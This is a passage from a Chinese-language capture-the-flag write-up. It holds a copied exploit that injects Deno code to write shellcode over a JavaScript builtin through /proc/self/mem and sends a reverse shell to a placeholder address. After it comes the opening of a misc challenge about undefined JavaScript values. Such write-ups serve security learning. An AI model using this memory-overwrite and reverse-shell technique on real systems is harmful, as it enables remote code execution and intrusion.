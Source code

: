 ```python
<%
let maps = await Deno.readTextFile('/proc/self/maps');
let line = maps.split("\\n").find(l => l.includes("/app/app") && l.includes("r-x"));

let base = parseInt(line.split(" ")[0].split("-")[0], 16);
let mem = await Deno.open('/proc/self/mem', { write: true });

let offset = base + 0xd39340;
console.log("[pwn] Builtins_JsonStringify @ 0x" + (offset).toString(16));
await Deno.seek(mem.rid, offset, Deno.SeekMode.Start);

let shellcode = `""" + base64.b64encode(shellcode).decode() + """`;
shellcode = atob(shellcode);
shellcode = "\\x90".repeat(512) + shellcode;
let shellcode_arr = new Uint8Array(shellcode.length);

for(let i = 0; i < shellcode.length; i++) {
    shellcode_arr[i] = shellcode.charCodeAt(i);
}

console.log("[pwn] lets go~");

await Deno.write(mem.rid, shellcode_arr);
JSON.stringify("wtmoo");
%>
"""

payload += "A"*1024*64

print(f"sending rev shell to {IPADDR}:{PORT}...")
while True:
    r = requests.get(HOST, data=payload)
```

还能说什么呢 牛逼

————以上后面pwn的地方我直接复制的官方wp

## misc/undefined

> I was writing some Javascript when everything became undefined...
>
> Can you create something out of nothing and read the flag at `/flag.txt`? Tested for Node version 17.
>
> `nc mc.ax 31131`
>
> [index.js](https://static.dicega.ng/uploads/014c52a7d294f05332240ef18c2c296af6e4bea6ff6899b7f09726e19c74dec7/index.js)

额，几乎把js所有乱七八糟的东西都整成undefined了
